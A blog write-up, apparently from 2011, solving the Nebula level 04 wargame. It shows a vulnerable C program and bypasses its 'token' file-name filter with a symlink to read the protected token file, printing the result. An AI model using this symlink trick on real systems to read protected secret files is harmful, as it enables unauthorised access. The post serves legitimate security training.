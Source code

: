 ```yaml
---
title: "Exploit Exercises - Nebula 04"
date: "2011-12-05T05:45:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


I really like [Nebula 04](http://exploit-exercises.com/nebula/level04), because it is really easy, but still a commonly missed thing in programming.

<!-- more -->

The object of this challenge is to find a vulnerability and exploit this C++ program.

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
 char buf[1024];
 int fd, rc;

 if(argc == 1) {
  printf("%s [file to read]\n", argv[0]);
  exit(EXIT_FAILURE);
 }

 if(strstr(argv[1], "token") != NULL) {
  printf("You may not access '%s'\n", argv[1]);
  exit(EXIT_FAILURE);
 }

 fd = open(argv[1], O_RDONLY);
 if(fd == -1) {
  err(EXIT_FAILURE, "Unable to open %s", argv[1]);
 }

 rc = read(fd, buf, sizeof(buf));

 if(rc == -1) {
  err(EXIT_FAILURE, "Unable to read fd %d", fd);
 }

 write(1, buf, rc);
}
```

So this program first verifies that you did pass it an argument of some sort. If you pass that check, it then makes sure that your argument does not contain the term "token", since the developer knows the filename they want to protect. If both of those suceed, it tries to open the file, and print it to the screen, as long as it exists, and has no general read errors.

So to exploit this program, we need to pass the program an argument, and it needs to not contain the term "token" in it. So all we need to do is make a symbolic link.

```
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/level04
level04@nebula:/home/flag04$ ./flag04 /tmp/level04
06508b5e-8909-4f38-b630-fdb148a848a2
```

The only odd part about this challenge is that there's apparently no privilege escalation done, so you can run "getflag", like every other problem up until now. [Someone else](http://exploit-exercises.com/nebula/level04#comment-375659125) noticed the same thing, but there has been no answer.  So as far as I'm concerned, this challenge is complete. We got the contents of the token file.
